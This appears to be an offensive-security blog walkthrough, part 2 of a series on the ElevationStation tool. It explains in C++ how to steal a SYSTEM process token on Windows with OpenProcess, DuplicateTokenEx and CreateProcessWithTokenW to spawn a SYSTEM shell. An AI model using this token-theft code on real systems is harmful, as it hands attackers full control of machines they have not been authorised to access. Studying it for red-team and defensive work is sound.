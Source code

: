 ```yaml
---
title:  "ElevationStation - A walkthrough through the development process [PART 2]"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hello again Infosec enthusiasts! Last time we talked, we discussed enabling token privileges for our current process so we can remotely access other processes via the SeDebug privilege. Let's continue on through the code shall we 😃

For review, we are here in the code:
```cpp
int DupProcessToken(DWORD pid)
{
    //enable ALL necessary privs!!!
   ➡️ setProcessPrivs(SE_DEBUG_NAME); ⬅️
    //priv enable routine complete
    BOOL bRet;
```
So we've successfully set our process privileges.  Now, let's steal the `SYSTEM` token we desire from our target process shall we?  To do so, we first need to open the remote process and get a handle on the remote process token.  Interestingly and favourably for us, we can open a remote `SYSTEM` process using the lowest level of desired access permitted, `PROCESS_QUERY_LIMITED_INFORMATION`, like so:
```cpp
proc2 = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
    if (!proc2)
    {
        Color(14);
        printf("[!] There was a permissions error opening process: %d w/ requested access...: %d\n", pid, GetLastError());
        Color(7);
        exit(0);
    }

    if (!OpenProcessToken(proc2, MAXIMUM_ALLOWED, &tok2))
    {
        Color(14);
        printf("[!] There was a permissions error applying the requested access to the token: %d\n", GetLastError());
        Color(7);
        exit(0);
    }
  ```
Next, we duplicate the token aquired in our token HANDLE and now we have an exact replica of the `SYSTEM` process token with all it's glorious privileges!
```cpp
if (!DuplicateTokenEx(tok2, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx failed. Error: %d\n", GetLastError());
        Color(7);
    }
    else
    {
        Color(2);
        printf("[+] DuplicateTokenEx success!!!\n");
        Color(7);
    }
```

`BEFORE` Duplicating Token:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/c05126fe-33e9-4709-82b3-7a5c4001f1f5)

and `AFTER` duplicating the token.  Notice a strikingly noteworthy difference? 😸
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/5698a405-fd3a-4343-bfdc-b7630989a2f2)
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2ef7009a-27a4-48c9-985f-57a4797d80c6)

Our `elevationstation.exe` process now **OWNS** a primary token with `SYSTEM` privileges, successfully duplicating the remote `SYSTEM` level process!  Now the moment you have all been waiting for... it's finally time to pop a SYSTEM shell!


```cpp
bRet = CreateProcessWithTokenW(hNewToken, NULL, NULL, wszProcessName, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessWithToken didn't cooperate...permissions maybe???\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessWithToken worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);
    }
    CloseHandle(hNewToken);
    CloseHandle(proc2);
    CloseHandle(tok2);
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/f7733753-d908-4409-a7df-2edb94adb49f)

And there you have it friends.  This concludes part 2 of our series explaining ElevationStation and the code behind how it works.  This portion of the series has only explained stealing primary tokens from a process. Next time, I'll walk you through stealing a remote process impersonation `THREAD` token and "converting" it to a primary token to gain a SYSTEM shell within your current shell, avoiding the headache of having to deal with CreateProcessWithToken's limitations 😆

bye!
